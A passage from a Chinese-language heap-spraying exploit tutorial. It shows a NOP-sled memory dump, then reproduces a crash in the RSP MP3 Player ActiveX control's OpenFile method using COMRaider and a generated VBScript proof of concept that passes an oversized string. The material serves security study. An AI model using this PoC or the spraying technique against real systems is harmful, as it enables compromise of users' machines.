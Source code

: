 ```
06060646  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
06060656  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
06060666  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
06060676  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
```

再次重申第一部分只讲典型的堆喷射，精确喷射会在第二部分将。为什么需要精确喷射？

(1)  我们需要处理DEP；

(2)  我们正在利用UAF类漏洞；

所有的准备工作完成，是时候弹shell了。

**<br>**

**崩溃重现**

下载RSP MP3 Player 并安装。转到rspmp3ocx320sw.ocx文件所在文件夹，执行

```
regsvr32 rspmp3ocx320sw.ocx
```

注册ocx控件，你能看到一个弹框说文件已经成功注册。接着下载[ COMRaider](http://bbs.pediy.com/thread-207158.htm)。COMRaider是一个很好用的ActiveX Fuzzer工具。用这个工具可以轻易得到POC。看看原始的[exploit](http://bbs.pediy.com/thread-207158.htm)可以知道崩溃出现在OpenFile函数。如果我们只Fuzzing这个函数会得到14个异常例子。我没有花时间测试所有的文件，但我怀疑如果你测试完所有的文件会发现大量的可利用的崩溃！<br>

[![](https://p0.ssl.qhimg.com/t013ccc3b7e492e39b9.png)](https://p0.ssl.qhimg.com/t013ccc3b7e492e39b9.png)

COMRaider<br>

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01fb33f70754473694.png)

OpenFile<br>

[![](https://p4.ssl.qhimg.com/t0142818fe000af5488.png)](https://p4.ssl.qhimg.com/t0142818fe000af5488.png)

Poor Programming<br>

如果我们看下面这个造成崩溃的文件，可以看到它非常简单，类似于exploit-db那个。<br>

```
&lt;?XML version='1.0' standalone='yes' ?&gt;
&lt;package&gt;&lt;job id='DoneInVBS' debug='false' error='true'&gt;
&lt;object classid='clsid:3C88113F-8CEC-48DC-A0E5-983EF9458687' id='target' /&gt;
&lt;script language='vbscript'&gt;
  
'File Generated by COMRaider v0.0.133 - http://labs.idefense.com
  
'Wscript.echo typename(target)
  
'for debugging/custom prolog
targetFile = "C:Documents and SettingsAdministratorDesktopRSP MP3 Playerrspmp3ocx320sw.ocx"
prototype  = "Function OpenFile ( ByVal Inputfile As String )"
memberName = "OpenFile"
progid     = "RSPMP3_320.RSPMP3"
argCount   = 1
  
arg1=String(1044, "A")
target.OpenFile arg1 
  
&lt;/script&gt;&lt;/job&gt;&lt;/package&gt;
```
